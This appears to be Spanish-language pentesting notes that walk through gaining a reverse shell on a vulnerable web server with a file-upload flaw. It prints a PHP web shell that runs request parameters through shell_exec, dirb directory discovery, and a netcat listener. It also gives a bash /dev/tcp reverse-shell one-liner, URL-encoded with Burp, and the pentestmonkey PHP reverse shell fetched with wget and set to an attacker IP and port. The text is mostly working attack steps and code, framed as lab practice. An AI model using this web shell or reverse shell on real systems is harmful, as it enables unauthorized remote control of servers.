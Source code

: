 ### Reverse Shell con php

- Lo ideal es encontrar un sitio web vulnerable (Vulhub)
- El sitio tiene una subida de archivos de cualquier tipo:

En el btn de selección de archivos, subimos el archivo con el código php para la ejecución del código:

```php
<?php
  echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre";
?>
```

Podemos utilizar una herramienta llamada `dirb` para encontrar directorios web

En Kali lo siguiente:

```sh
(root@kali)- [/home/kali/Desktop]
-> dirb http://elsitioweb
...

====> DIRECTORY: http://elsitioweb/uploads/
```

- Copiamos esa ruta... la llevamos a la url
- Ubicamos el archivo malicioso, copiamos el nombre - lo agregamos a la URL
- Nos queda lo siguiente en la URL:

```sh
-> http://elsitioweb/uploads/pwned.php?cmd=whoami
-> http://elsitioweb/uploads/pwned.php?cmd=id
-> http://elsitioweb/uploads/pwned.php?cmd=ls
```

Y ya puedo ejecutar comando desde la url.

Solo faltaría enviar un comando que conecte con nuestro servidor:

```sh
$ ifconfig
# nos devuelve nuestra IP

$ nc -nlvp 443 # cualquier puerto
```

Necesitamos que vaya el comando en la URL:

```sh
$ bash -c 'bash -i >& /dev/tcp/192.../443 0>&1'
# esto asi, no nos sirve
```

Podemos capturarlo con Burp Suite:

- En la sección de `Decoder`
- Pegamos el comando : `bash -c 'bash -i >& /dev/tcp/192.../443 0>&1'`
- En la parte del lado derecho seleccionamos `Encode as...` - `URL`
- Nos entrega un resultado y eso lo pegamos en la URL: 

```sh
$ http://elsitioweb/uploads/pwned.php?cmd=AQUIELCOMANDODEBURPSUITE
```

Con esto tenemos la conexión con la máquina objetivo.

### Plan B:

Nos ahorramos todo esto y buscamos el repositorio en:

`pentestmonkey/php-reverse-shell`

Link: (pentestmonkey/php-reverse-shell)[https://github.com/pentestmonkey/php-reverse-shell]

Nos traemos el archivo: `php-reverse-shell.php` con raw

Y con:

```sh
$ wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php

$ ls
```

Editamos el archivo:

```php
set_time_limit (0);
$VERSION = "1.0";
$ip = '127...';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```
